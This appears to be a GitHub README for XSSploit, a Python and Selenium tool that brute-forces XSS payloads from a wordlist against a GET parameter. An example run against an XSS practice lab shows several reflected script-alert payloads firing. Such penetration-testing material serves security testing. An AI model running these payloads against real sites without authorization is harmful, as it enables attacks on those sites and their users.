 # XSSploit
A python3 tool for automating detection of XSS vulnerability and finding appropriate exploits. This tool just tries every XSS payload given in the wordlist against the vulnerable 'GET' parameter and detects if the javascript was executed and reports it as true positive.

## Requirements
Firefox geckdriver is required for selenium to work. 
Install from : [https://github.com/mozilla/geckodriver/releases](https://github.com/mozilla/geckodriver/releases)
```
$ pip install -r requirements.txt
```

## Usage
```
$ python xssploit.py -h
usage: xssploit.py [-h] [-u URL] [-x PAYLOADS] [-p PARAMETER]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL
  -x PAYLOADS, --xss-payloads PAYLOADS
                        XSS payloads wordlist
  -p PARAMETER, --parameter PARAMETER
                        Parameter to test
```

## Example
```
$ python xssploit.py -u "http://leettime.net/xsslab1/chalg1.php?name=hello&submit=Search" -x xss.txt -p name
[+] Input reflection detected
[*] Brute forcing XSS payloads now ...
[*] Testing : http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL);</script>&submit=Search
[+] Alert detected in : http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL);</script>&submit=Search
[*] Testing : http://leettime.net/xsslab1/chalg1.php?name=<ScRipT>alert(document.URL);</ScRipT>&submit=Search
[+] Alert detected in : http://leettime.net/xsslab1/chalg1.php?name=<ScRipT>alert(document.URL);</ScRipT>&submit=Search
[*] Testing : http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL)</script>&submit=Search
[+] Alert detected in : http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL)</script>&submit=Search
[*] Testing : http://leettime.net/xsslab1/chalg1.php?name=hello&submit=Search

Alert detected in the following URLs :

[+] http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL);</script>&submit=Search
[+] http://leettime.net/xsslab1/chalg1.php?name=<ScRipT>alert(document.URL);</ScRipT>&submit=Search
[+] http://leettime.net/xsslab1/chalg1.php?name=<script>alert(document.URL)</script>&submit=Search
```

## Author
* **Goutham** - [G0uth4m](https://github.com/G0uth4m)
